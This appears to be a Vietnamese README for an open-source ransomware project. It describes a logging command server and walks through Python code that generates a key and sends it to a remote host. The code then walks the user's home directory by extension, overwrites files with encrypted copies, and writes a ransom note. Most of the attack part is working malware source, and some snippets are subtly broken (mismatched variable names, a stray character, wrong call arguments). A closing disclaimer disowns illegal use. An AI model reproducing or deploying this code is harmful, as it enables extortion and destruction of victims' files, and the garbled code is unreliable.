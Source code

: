 # RANSOMWARE
 *Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.*
 ## SERVER
 - **Tính Năng**

 **Xử Lý Kết Nối Máy Khách:** *Máy chủ chấp nhận kết nối từ máy khách và xử lý dữ liệu đến.*
 **Đa Luồng:** *Sử dụng luồng để xử lý nhiều kết nối máy khách cùng một lúc.*
 **Ghi Nhật Ký Hoạt Động:** *Ghi nhật ký hoạt động của máy khách vào cơ sở dữ liệu SQLite.*
 **Ghi Nhật Ký Lỗi:** *Ghi nhật ký lỗi gặp phải bởi máy chủ vào cùng một cơ sở dữ liệu.*

 - **Cấu Trúc Mã**

 **Lớp Máy Chủ:** *Quản lý khởi tạo máy chủ, kết nối máy khách và xử lý dữ liệu.*
 **Lớp SQLiteLog:** *Xử lý các thao tác cơ sở dữ liệu bao gồm kết nối, tạo bảng và ghi nhật ký hoạt động/lỗi.*
 **Hàm Console:** *In các thông điệp ra cửa sổ console với đầu ra màu sắc.*
 **Hàm Main:** *Khởi tạo máy chủ và bắt đầu lắng nghe các kết nối.*

 - **Xử Lý Lỗi**

 *Kịch bản bao gồm xử lý lỗi mạnh mẽ để xử lý ngoại lệ một cách nhẹ nhàng và ghi nhật ký lỗi để gỡ lỗi và bảo trì.*

 - **Đóng Góp**

 *Các đóng góp để cải thiện tính năng, tính bảo mật và hiệu suất của kịch bản là hoan nghênh. Fork kho lưu trữ, thực hiện các thay đổi của bạn và gửi yêu cầu kéo.*

 - **Giấy Phép**

 *Kịch bản này được cấp phép theo Giấy Phép MIT. Xem tệp LICENSE để biết thông tin chi tiết.*
 ## ENCRYPT
 - **__init__:**
  *Khởi tạo các biến cần thiết như địa chỉ IP và cổng máy chủ, khóa riêng tư (Private) được tạo từ **Fernet**.*
 ```python
def __init__(self, host: str, port: str) -> None:
    self.host = host
    self.port = port
    self.server = socket(AF_INET, SOCK_STREAM)  # Tạo socket kết nối TCP
    self.key = Fernet.generate_key()  # Tạo khóa bí mật ngẫu nhiên
    self.Private = Fernet(self.key)  # Tạo đối tượng Fernet với khóa bí mật
    self.system = os.uname().sysname  # Lấy tên hệ thống
 ```

 - **ConnectServer:**
  *Kết nối đến máy chủ với số lần thử lại tối đa là 3. Nếu kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.*
 ```python
def ConnectServer(self, connected=False) -> None:
    retries = 0
    while not connected and retries < 3:
        try:
            # Kết nối đến máy chủ với địa chỉ và cổng đã cung cấp
            self.server.connect((self.host, self.port))
            # Gửi thông tin hệ thống và khóa đến máy chủ
            self.server.sendall(f'{self.system}|{self.key.decode("utf-8")}'.encode('utf-8'))
            connected = True
        except:
            # Tăng số lần thử lại và chờ 100 giây trước khi thử lại
            retries += 1
            if retries < 3:
                sleep(100)
            else:
                # Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình
                os.execv(sys.executable, [sys.executable] + sys.argv)
        finally:
            # Đóng kết nối sau khi thực hiện xong
            self.server.close()
 ```
 - **Encrypted:**
  *Mã hóa các tệp trên hệ thống. Nó lặp qua tất cả các tệp trong hệ thống, mã hóa chúng bằng cách đọc và ghi dữ liệu từng phần. Lặp qua tất cả các tệp trong thư mục đã chỉ định và mã hóa từng tệp.*
 ```python
def Encrypted(self):
   for _, files in self.listfiles().items():
        for file in files:
            temp_file = file + '.temp'
 ```
 *Mở tệp gốc để đọc và tệp tạm thời để ghi*
 ```python
 try:
   with open(file, 'rb') as original_file, open(temp_file, 'wb') as encfile:
      while True:
         # Đọc dữ liệu từ tệp gốc thành các phần nhỏ có kích thước 4 MB
         hunk = original_file.read(4096 * 1024)
         if not chunk:
            break
         # Mã hóa từng phần nhỏ kích thước khóa là 32
         enc_chunk = self.Private.encrypt(chunk, 32)[0]
         # Ghi phần nhỏ đã mã hóa vào tệp tạm thời
         encfile.write(enc_chunk)
      os.replace(temp_file, file)
 except:
      pass  # Bỏ qua bất kỳ ngoại lệ nào
 finally:
   #Nếu tệp tạm thời tồn tại, xóa nó
   if os.path.exists(temp_file): 
      os.remove(temp_file)
 ```

 - **Contact:**
  *Tạo một tệp văn bản chứa thông điệp yêu cầu thanh toán chuộc.* 

 - **Listfiles:** 
 *Liệt kê các tệp trên hệ thống và phân loại chúng dựa trên phần mở rộng.*

 *Các phần mở rộng tệp được chia thành các danh mục như sau.*
 ```python
def Listfiles(self) -> dict:
    exts = {
        'images': ['.jpg', '.png'],
        'documents': ['.txt', '.docx'],
        'others': ['.rar', '.zip', '.mp4'],
        'code': ['.java', '.py', '.pyc', '.html', '.css']
    }
 ```
 *khởi tạo với các khóa là các danh mục từ exts và giá trị là danh sách rỗng.*
 *Nó sẽ được sử dụng để lưu trữ các tệp theo danh mục.*
 ```python
    file_categories = {category: [] for category in exts}S
 ```
 *Từ điển này ánh xạ từng phần mở rộng tệp đến danh mục tương ứng của nó.*
 *Điều này giúp dễ dàng xác định danh mục của một tệp dựa trên phần mở rộng của nó.*
 ```python
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}
 ```
 *Sử dụng* **Path.home().rglob('**~**')** *để liệt kê tất cả các tệp trong thư mục home của người dùng*
 *Kiểm tra nếu entry là một tệp **entry.is_file()**.*

 *Lấy phần mở rộng của tệp **entry.suffix.lower()**, chuyển nó thành chữ thường và gán vào biến ext.*

 *Nếu ext có trong extcategory, thêm đường dẫn của tệp entry vào danh sách tương ứng trong file_categories.*
 
 *trả về các tệp đã được phân loại.*
 ```python
    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))
    return file_categories
 ```
 ### Chúng tôi không chịu trách nhiệm về các hành vi vi phạm pháp luật của các cá nhân hay tổ chức sử dụng trái phép mã nguồn mở này!
